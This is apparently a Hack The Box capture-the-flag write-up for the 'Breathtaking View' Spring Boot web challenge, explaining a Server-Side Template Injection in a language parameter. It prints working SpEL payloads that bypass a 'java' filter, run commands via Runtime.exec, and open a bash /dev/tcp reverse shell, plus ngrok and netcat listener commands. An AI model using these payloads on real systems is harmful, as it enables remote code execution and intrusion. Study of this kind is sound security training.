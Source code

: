```yaml
---
title: Breathtaking View - Hack The Box
date: 2024-10-27
---
```


# Breathtaking View

![Breathtaking View - thumbnail](/ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg)

## Box description

Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

## Challenge Description

This challenge is a web application written in **Spring Boot**. It provides a simple interface with registration and
login functionality. Once logged in, we are presented with the following page:

![View 1](/ctf/hack-the-box/challenges/web/breathtaking-view/view1.png)

Clicking the "Change Language" button redirects to another page:

![View 2](/ctf/hack-the-box/challenges/web/breathtaking-view/view2.png)

Looking at the URL, we can see that the language is passed as a parameter:

```
http://localhost:1337/?lang=fr
```

## Code Review

### IndexController.java

```java
@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
        }

        return lang + "/index";
    }
}
```

Upon reviewing the `IndexController.java` code:

- The `index` method handles the rendering of the main page and takes in a `lang` parameter, which defaults to `"en"`.
- If the `user` session attribute is missing, the method redirects to the login page.
- If the `lang` parameter contains the string `"java"`, the method sets an error message and redirects to the index page.
- Otherwise, it returns a path based on `lang` by appending `"/index"` to it.

The concatenation of `lang` with `"/index"` could allow us to inject code into the `lang` parameter, leading to a **Server-Side Template Injection (SSTI)**
vulnerability.

## Exploitation - Server-Side Template Injection (SSTI)

### Proof of Concept (PoC)

To confirm SSTI vulnerability, we inject a simple expression into the `lang` parameter:

```plaintext
__${7*7}__::.x
```

Using this payload (sourced
from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)),
we receive the following response:

```plaintext
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The payload `7*7` evaluated to `49`, confirming that SSTI is possible. We can now proceed to exploit this vulnerability.

### Exploit Strategy

Our goal is to inject Java code into the `lang` parameter to execute system commands on the server. However, since any
input containing the string `"java"` triggers a redirection, we need a workaround.

#### Using the T() Class

In Java, the `java.lang` package is imported by default. By leveraging the `T` operator from **Spring Expression
Language (SpEL)**, we can call methods like `Runtime.getRuntime()` without specifying `java.lang`.

### Payload

We start with a payload to list files in the current directory:

```java
__${T(Runtime).getRuntime().exec("ls")}__::.x
```

#### Response

```
Error resolving template [java.lang.UNIXProcess@590062a7], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The response shows `java.lang.UNIXProcess@590062a7`, indicating that the `exec()` command executed successfully.
However, we don’t see the output of the `ls` command directly because `exec()` returns a `Process` object, not a string.

To capture command output, we need to redirect it to a more accessible place, such as a reverse shell.

### Establishing a Reverse Shell

To create a reverse shell, we start by setting up a listener on our machine and then use the following payload to create
a shell script on the server:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > shell.sh"})}__::.x
```

Looking at the docker container file, we can see the `shell.sh` file created

### Executing the Shell Script

To run the shell script and establish the reverse shell, we use the following payload:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "bash shell.sh"})}__::.x
```

Upon execution, we successfully gain a reverse shell and can interact with the server.

With the reverse shell active, we proceed to list files in the root directory:

```bash
root@9348cae2ee45 /# ls
app
bin
boot
dev
etc
flag_lyh3sdrgCjCI_.txt
home
...
```

Reading the flag file:

```bash
root@9348cae2ee45 /# cat flag_lyh3sdrgCjCI_.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

![Breathtaking View - pwned](/ctf/hack-the-box/challenges/web/breathtaking-view/pwned.png)

## References

- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)
